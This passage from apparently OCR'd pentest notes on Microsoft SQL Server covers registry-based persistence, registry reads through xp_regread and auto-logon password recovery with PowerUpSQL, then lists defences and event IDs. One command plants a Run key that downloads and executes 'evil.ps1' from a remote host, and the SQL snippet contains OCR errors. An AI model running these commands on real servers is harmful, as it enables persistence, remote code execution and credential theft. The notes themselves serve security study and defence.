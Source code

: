 ```powershell
Get-SQLPersistRegRun -Instance instance -username sa -Password pw -Name SQLUpdate -Command 'powershell -w 1 -NoP -NoL iex(New-Object Net.WebClient).DownloadString("http://webserver/evil.ps1")' -Verbose
```

**`xp_regread`**

- Limited read for `public` role
- References:
  - <https://blog.netspi.com/get-windows-auto-login-passwords-via-sql-server-powerupsql/>
    ```sql
    DECLARE @Reg_Value VARCHAR(1000)
    EXECUTE xp_regread 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\WindowsNT\CurrentVersion\CurrentVersion',‘ProductName',
    @Reg_Value OUTPUT
    SELECT @Reg_Value
    ```
- Read auto-login password:
    ```powershell
    Get-SQLRecoverPwAutoLogon -Instance instance -username sa -Password pw -Verbose
    ```

**`xp_regdeletekey`**

- Needs `sysadmin`
- References:
  - <https://support.microsoft.com/en-us/help/887165/bug-you-may-receive-an-access-is-denied-error-message-when-a-query-cal>

## Defence

- Audit links, trusts, privileges and credentials.
- Service Accounts for databases should not be high privilege domain account.
- Known dangerous Stored Procedures are disabled.
- Use audit features to log interesting events.
- Monitor the logs (`Management Studio -> Management -> SQL Server Logs`)
- Error log @ `Program-Files\Microsoft SQL Server\MSSQL.1MSSQL\LOG\ERRORLOG`
- Logs are also written to Windows Application logs with `MSSQLSERVER` as source.
- Good password policy.
- Not using same username across databases.
- Logon failures are logged by default (source `MSSQLSERVER`).

| Event ID | Description |
| -------- |------------ |
| 18456 | Authentication failures |
| 5084 | Setting TRUSTWORTHY to on/off |
| 17135 | Launch of startup stored procedures |
| 33090 | Successful DLL loading |
| 17750 | Failed DLL loading |
| 15457 | Using sp_configure (command execution) |

## References

- <https://blog.anitian.com/hacking-microsoft-sql-server-without-a-password/>
- <https://blog.anitian.com/hacking-sql-servers-without-password/>

